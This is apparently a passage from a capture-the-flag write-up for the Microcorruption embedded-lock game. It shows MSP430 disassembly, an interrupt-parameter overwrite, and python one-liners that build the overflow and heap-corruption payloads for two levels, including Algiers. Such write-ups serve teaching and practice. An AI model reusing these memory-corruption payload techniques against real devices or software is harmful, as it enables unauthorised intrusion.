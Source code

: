 44c8 is the address of the interrupt parameter

```
44b0 <conditional_unlock_door>
44b0:  0412           push  r4
44b2:  0441           mov   sp, r4
44b4:  2453           incd  r4
44b6:  2183           decd  sp
44b8:  c443 fcff      mov.b #0x0, -0x4(r4)
44bc:  3e40 fcff      mov   #0xfffc, r14
44c0:  0e54           add   r4, r14
44c2:  0e12           push  r14
44c4:  0f12           push  r15
44c6:  3012 7e00      push  #0x7e
44ca:  b012 3645      call  #0x4536 <INT>
```
we overwrite #0x7e to #0x7f, with 127 characters password
```
python -c 'print "c844" * 61 + "d6" + "2578256e"'|xclip
```

# 0x0c Algiers

This is a classical heap corruption technique, we have to replace the end of the free function, so the code doesn't return, and continues to unlock_door.

![Algiers image]({{ site.url }}/assets/images/microcorruption/algiers.png)

username:
```
python -c 'print "61" * 16 + "444462452100"'|xclip
```
password:
61
